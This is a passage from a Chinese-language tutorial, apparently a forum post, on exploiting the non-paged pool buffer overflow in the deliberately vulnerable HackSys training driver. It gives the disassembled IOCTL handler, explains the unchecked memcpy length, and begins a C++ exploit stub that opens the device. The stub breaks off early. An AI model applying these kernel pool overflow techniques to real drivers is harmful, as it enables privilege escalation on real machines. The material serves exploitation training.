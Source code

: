 ```
PAGE:00444CAA ; int __stdcall BufferOverflowNonPagedPoolIoctlHandler(_IRP *Irp, _IO_STACK_LOCATION *IrpSp)
PAGE:00444CAA _BufferOverflowNonPagedPoolIoctlHandler@8 proc near
PAGE:00444CAA                                         ; CODE XREF: IrpDeviceIoCtlHandler(x,x)+C5↑p
PAGE:00444CAA
PAGE:00444CAA Irp             = dword ptr  8
PAGE:00444CAA IrpSp           = dword ptr  0Ch
PAGE:00444CAA
PAGE:00444CAA                 push    ebp
PAGE:00444CAB                 mov     ebp, esp
PAGE:00444CAD                 mov     eax, [ebp+IrpSp]
PAGE:00444CB0                 mov     ecx, STATUS_UNSUCCESSFUL
PAGE:00444CB5                 mov     edx, [eax+_IO_STACK_LOCATION.Parameters.DeviceIoControl.Type3InputBuffer]
PAGE:00444CB8                 mov     eax, [eax+_IO_STACK_LOCATION.Parameters.DeviceIoControl.InputBufferLength]
PAGE:00444CBB                 test    edx, edx
PAGE:00444CBD                 jz      short loc_444CC8
PAGE:00444CBF                 push    eax             ; Size
PAGE:00444CC0                 push    edx             ; UserBuffer
PAGE:00444CC1                 call    _TriggerBufferOverflowNonPagedPool@8 ; TriggerBufferOverflowNonPagedPool(x,x)
PAGE:00444CC6                 mov     ecx, eax
PAGE:00444CC8
PAGE:00444CC8 loc_444CC8:                             ; CODE XREF: BufferOverflowNonPagedPoolIoctlHandler(x,x)+13↑j
PAGE:00444CC8                 mov     eax, ecx
PAGE:00444CCA                 pop     ebp
PAGE:00444CCB                 retn    8
PAGE:00444CCB _BufferOverflowNonPagedPoolIoctlHandler@8 endp

```

TriggerBufferOverflowNonPagedPool 函数的执行内容很简单，申请一块 0x1F8 大小的非分页内存块，然后将输入缓冲区中的数据复制到这块非分页内存中去。但是这里调用的 memcpy 函数指定的是输入缓冲区的长度，而这个长度这个函数没有验证是不是合法的，也就是是不是超过了 0x1F8。如果超过了这个大小，直接复制就会导致数据溢出申请的非分页内存池，造成漏洞

![](https://bbs.pediy.com/upload/tmp/835440_WXGWAB3XDBH8MB8.jpg)

接下来用下面的代码进行探测，首先输入的缓冲区的大小是符合要求的 0x1F8  

```
// exploit.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//
#include  #include  #include  #define LINK_NAME "\\\\.\\HackSysExtremeVulnerableDriver"
#define INPUT_BUFFER_LENGTH 0x1F8             // 符合大小
 
void ShowError(PCHAR msg, DWORD ErrorCode);
 
int main()
{
    HANDLE hDevice = NULL;
    DWORD dwReturnLength = 0;
    CONST DWORD dwIoCtl = 0x222003 + 3 * 4;
 
        // 打开驱动设备
    hDevice = CreateFile(LINK_NAME,
                 GENERIC_READ | GENERIC_WRITE,
                 0,
                 NULL,
                 OPEN_EXISTING,
                 FILE_ATTRIBUTE_NORMAL,
                 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
```